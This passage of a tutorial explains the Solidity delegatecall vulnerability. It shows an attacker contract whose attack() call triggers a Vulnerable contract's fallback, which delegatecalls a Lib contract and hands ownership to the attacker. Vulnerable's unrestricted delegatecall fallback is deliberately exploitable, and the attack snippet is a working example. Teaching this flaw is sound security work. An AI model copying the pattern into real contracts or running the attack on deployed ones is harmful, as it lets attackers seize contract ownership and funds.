 From the above code, the first thing that is done is to define a variable to store the address of the `Vulnerable` contract. The actual value will be set when the contract is deployed. This value is then passed into the constructor.

```solidity
constructor(address _vulnerable) {
        vulnerable = _vulnerable;
    }
```

Inside the contract, we also have a function called `attack()`. This function makes a call to the `vulnerable` contract. It seems harmless, but with a closer look, we can observe that it is trying to call the `setowner()` function which is inside an entirely different contract. The `attack()` function is passing in the function signature of `setowner()` as its `msg.data`

```solidity
function attack() public {
        vulnerable.call(abi.encodeWithSignature("setowner()"));
    }
```

This attempt of the `attack()` function will trigger the `fallback()` function inside the `Vulnerable` contract. If we recall, the `fallback()` function makes a `delegatecall` to the `Lib` contract and sends the `msg.data` to it. But how does this affect the `Vulnerable` contract?

- Since the `fallback` function sends the `msg.data`, which matches the `setowner()` function to the `Lib` contract, the `setowner()` function is called.
- The `setowner()` function then updates the `owner` variable.
- Since the `delegatecall` runs its code using the storage of the `Vulnerable` contract, the `owner` variable that will be updated is the one inside the `Vulnerable` contract.
- The `setowner()` function sets the owner variable to `msg.sender` and since `msg.sender` refers to the caller of `Vulnerable`, in this case, `AttakVulnerable`, the new owner will be `AttackVulnerable`.

Find the full code here:

```solidity
pragma solidity ^0.8.13;
/*
1. OwnerA deploys Lib
2. OwnerA deploys Vulnerable with the address of Lib
3. Attacker deploys AttackVulnerable with the address of Vulnerable
4. Attacker calls AttackVulnerable.attack()
5. Attack is now the owner of Vulnerable
*/

contract Lib {
    address public owner;

    function setowner() public {
        owner = msg.sender;
    }
}

contract Vulnerable {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

```